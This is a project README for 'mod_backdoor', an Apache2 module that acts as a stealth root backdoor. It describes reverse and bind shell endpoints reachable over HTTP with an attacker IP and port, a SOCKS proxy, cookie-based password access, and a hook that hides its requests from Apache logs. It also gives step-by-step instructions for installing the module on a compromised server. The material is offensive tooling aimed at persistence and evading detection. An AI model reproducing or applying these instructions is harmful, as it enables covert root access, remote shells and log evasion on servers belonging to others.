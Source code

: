 # Apache2 mod_backdoor
Apache2 Module Backdoor is a stealth backdoor using an Apache2 module.<br/>
The main idea is to fork() the main Apache2 process just after it has readed its config.
Since it's forked before the root user transfer the process to www-data, you can execute command as root.<br/>
The challenge was to never let die this forked root apache2 process, to let us interact as root with 
the compromised system.

# Features

* Bind TTY Shell
* Reverse Shell (TTY , native, PHP, Perl, Python, Ruby)
* High stability and reliability, each shell spawns a new forked independent root process attached to PID 1
* Socks proxy (Socks5 code from https://github.com/fgssfgss/socks_proxy)
* Password Protection through cookie headers
* Ping module to know if its still active


There is also a hook to bypass the Apache2 logging mechanism. Each request to the backdoor module **are not logged** by Apache2.

# Demo
***COMING SOON***

# Description

The password is passed through Cookie headers: `Cookie: password=backdoor`. It's defined with `#define` 
in the beginning of mod_backdoor.c, so you could edit it easily.<br/>

Each following requests must contain this password to interact with the module.<br/>
Each request containing this cookie will not be logged by Apache if the module is running. <br/>
<br/>
Each shell spawns in its own process, attached to PID 1 and removed from apache2 cgroup.
 It means it's possible to restart/stop apache2.service from a spawned shell. It also improves stealth, shells
 are no longer related to apache2.service. <br/>

### Bind TTY Shell
The endpoint  `http[s]://<TARGET>/bind/<PORT>` bind a listening port on `<TARGET>:<PORT>` <br/>
When a connection is initiated to the listening port, the port closes. <br/>
I've used forkpty() to obtain a native TTY shell, working with an IPC UNIX socket to communicate 
between forked TTY process and the new socket you just opened.

### Reverse TTY Shell
It works like the bind shell, the endpoint `http[s]://<TARGET>/revtty/<IP>/<PORT>` returns a TTY
shell to `<IP>:<PORT>` <br/>


### Reverse Shell (No TTY)
The endpoint `http[s]://<TARGET>/reverse/<IP>/<PORT>/<PROG>` returns a shell to `<IP>:<PORT>` <br/>
`<PROG>` must be one of these: <br/>

| Native   | External  |    
| :------: | :--------:|
|   sh     |    php    |
|   bash   |    python |
|   dash   |    ruby   |
|   ash    |    perl   |
|   tcsh   |           |
|   ksh    |           |

`<PROG>` must be in lower-case.<br/>
PHP uses the `exec` function.<br/>
Ruby isn't using `/bin/sh`.

### Ping module
The endpoint `http[s]://<TARGET>/ping` tell you if the module is currently working.

# Notes
You could easily edit the different endpoints and the password. It is defined by constants 
at the beginning of `mod_backdoor.c`.<br/>
Apache2 Module Backdoor is inspired from Ringbuilder, created by Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br/>
More info about Ringbuilder:<br/>
https://github.com/TarlogicSecurity/mod_ringbuilder <br/>
https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>

Socks5 code was adapted from https://github.com/fgssfgss/socks_proxy <br/>

# Builds
For development :<br/>
* `apxs -i -a -c mod_backdoor.c -Wl,-lutil` <br/>
 -Wl,-lutil used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Compile it like above for the desired arch and retrieve the mod_backdoor.so
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Create `/etc/apache2/mod-available/backdoor.load` --> <br/>
 `LoadModule backdoor_module /usr/lib/apache2/modules/mod_backdoor.so`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))
